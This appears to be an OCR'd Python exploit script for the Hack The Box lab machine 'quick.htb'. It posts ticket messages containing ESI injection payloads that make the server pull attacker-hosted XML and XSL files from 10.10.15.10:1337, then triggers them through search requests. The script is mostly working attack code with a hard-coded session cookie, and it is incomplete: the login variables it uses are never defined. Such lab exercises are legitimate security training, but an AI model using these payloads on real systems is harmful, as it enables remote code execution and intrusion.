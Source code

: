 ```python
#TODO: Get headers from an initial GET request so have accurate PHPSESSID (not hard-coded)

ticket_url = "http://quick.htb:9001/ticket.php"
ticket_headers = {
    'Host': 'quick.htb:9001',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://quick.htb:9001/ticket.php',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'PHPSESSID=03u65s156tk17dfddsi28m7rld'}

esi1 = 'title=evil&msg="<esi:include src="http://10.10.15.10:1337/evil.xml" stylesheet="http://10.10.15.10:1337/evil.xsl"></esi:include>"&id=TKT-1234'
esi2 = 'title=evil1&msg="<esi:include src="http://10.10.15.10:1337/evil1.xml" stylesheet="http://10.10.15.10:1337/evil1.xsl"></esi:include>"&id=TKT-2345'
esi3 = 'title=evil2&msg="<esi:include src="http://10.10.15.10:1337/evil2.xml" stylesheet="http://10.10.15.10:1337/evil2.xsl"></esi:include>"&id=TKT-3456'

ticGet1_url = 'http://quick.htb:9001/search.php?search=1234'
ticGet2_url = 'http://quick.htb:9001/search.php?search=2345'
ticGet3_url = 'http://quick.htb:9001/search.php?search=3456'
ticGet_headers = {
    'Host': 'quick.htb:9001',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://quick.htb:9001/home.php',
    'X-Requested-With': 'XMLHttpRequest',
    'Connection': 'close',
    'Cookie': 'PHPSESSID=03u65s156tk17dfddsi28m7rld',
    'DNT': '1'}

esi1_r, esi2_r, esi3_r = None, None, None

login_r = requests.post(login_url, headers = login_headers, data = login_data)
#login_r.status_code should be == 302, however this login request is not working correctly
#need to further troubleshoot; for now bypassed by logging in with burp
if login_r.status_code == 200:
    print("Login successful!\n")
    esi1_r = requests.post(ticket_url, headers = ticket_headers, data = esi1)
    time.sleep(1)
    ticGet1_r = requests.get(ticGet1_url, headers = ticGet_headers)
    time.sleep(1)
else:
    print("The request failed with status code: " + str(login_r.status_code))
    print("Did not login successfully :(\n")
    print("Dumping response text:\n\n")
    print(login_r.text)
    sys.exit()

if esi1_r.status_code == 200:
    print("Evil1 upload successful!\n")
    esi2_r = requests.post(ticket_url, headers = ticket_headers, data = esi2)
    time.sleep(1)
    ticGet2_r = requests.get(ticGet2_url, headers = ticGet_headers)
    time.sleep(1)
else:
    print("The request failed with status code: " + str(esi1_r.status_code))
    print("Did not upload evil1 successfully :(\n")
    sys.exit()
```